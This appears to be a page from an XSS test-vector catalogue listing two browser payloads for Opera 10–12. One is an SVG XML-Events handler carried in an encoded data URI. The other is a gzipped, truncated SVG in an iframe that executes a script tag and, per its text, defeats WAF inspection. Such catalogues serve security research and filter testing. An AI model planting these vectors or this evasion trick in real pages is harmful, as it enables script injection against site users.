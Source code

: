 ```
<svg  id="foo"> <x  event="load" observer="foo" handler="data:image/svg+xml,%3Csvg%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg…Chandler%20xml%3Aid%3D%22bar%22%20type%3D%22application%2Fecmascript%22%3E alert(1) %3C%2Fhandler%3E%0A%3C%2Fsvg%3E%0A#bar"/> </svg> 
```

*   opera 10.x
*   opera 12.0

*   xss

*   javascript
*   svg
*   tinysvg
*   listener
*   xml
*   events

*   [`www.w3.org/TR/SVGMobile12/script.html`](http://www.w3.org/TR/SVGMobile12/script.html)

*   [`www.w3.org/TR/2003/REC-xml-events-20031014/`](http://www.w3.org/TR/2003/REC-xml-events-20031014/)
*   #85
*   #94
*   #127

reporter：.mario

### SVG payload obfuscation with gzipped HTML and MIME type image/svg-xml#105test

Opera allows displaying compressed SVG images without the usually necessary encoding header. This works for almost arbitrary data as long as the content type image/svg+xml is set - or image/svg-xml like in this example. Notice that the compressed data can be truncated. Opera will still accept it and render the <script> tag and execute the alert(1) - most other Gzip parsers will break though - rendering any WAF or similar tool trying to analyze the payload useless (gzip 1.3.12 states the payload contains 50+ MB of binary gibberish). The example contains no actual SVG code - just a regular <script> tag with a XHTML namespace attribute.

```
<iframe src="data:image/svg-xml,%1F%8B%08%00%00%00%00%00%02%03%B3)N.%CA%2C(Q%A8%C8%CD%C9…D6%CB%2FJ%D77%B4%B4%B4%D4%AF%C8(%C9%CDQ%B2K%CCI-*%D10%D4%B4%D1%87%E8%B2%03"></iframe> 
```

*   opera 10.x
*   opera 12.0

*   xss

*   javascript
*   svg
*   svgz
*   gzip
*   xml
*   compression

*   [`www.w3.org/TR/2002/CR-SVG11-20020430/minimize.html`](http://www.w3.org/TR/2002/CR-SVG11-20020430/minimize.html)
